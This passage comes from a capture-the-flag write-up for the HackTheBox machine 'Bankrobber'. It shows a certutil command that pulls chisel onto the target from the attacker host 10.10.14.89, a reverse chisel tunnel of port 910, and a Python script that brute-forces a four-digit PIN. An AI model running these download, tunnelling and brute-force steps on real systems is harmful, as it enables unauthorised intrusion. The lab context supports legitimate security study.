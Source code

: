 
Trying to brute force this pin shouldn't be an issue, but we need to do this from our attack machine. For that, we need to tunnel this port over to our attack machine. To accomplish this, I will [chisel](https://github.com/jpillora/chisel).


I download a [64-bit version](https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz) of chisel for windows to my attack machine and host it up via a pyhton web server. 


Then, I download it from the target using:

```cmd
certutil -urlcache -f http://10.10.14.89/chisel.exe %temp%/chisel.exe
```

Then from my attack machine I will start the chisel server with:

```bash
chisel server -p 4545 --reverse
```

And connect from the target using:

```bash
%temp%\chisel.exe client 10.10.14.89:4545 R:910:127.0.0.1:910
```

On my server I recive the connection and the tunnel is established:

![established-37](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/established-37.png)


Now that we have the service on our local host we can start brute forcing the pin. For that, we can use this simple python script:

```python
#!/usr/bin/python3

import socket, sys

for i in range(10000):
    sys.stdout.write(f"\rTesting: {i:04d}")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('localhost', 910))
    s.recv(1024)
    s.send(f"{i:04d}\n".encode())
    resp = s.recv(4096)
    if not b"Access denied" in resp:
        print(f"\rFound pin: {i:04d}")
        break
    s.close()
```
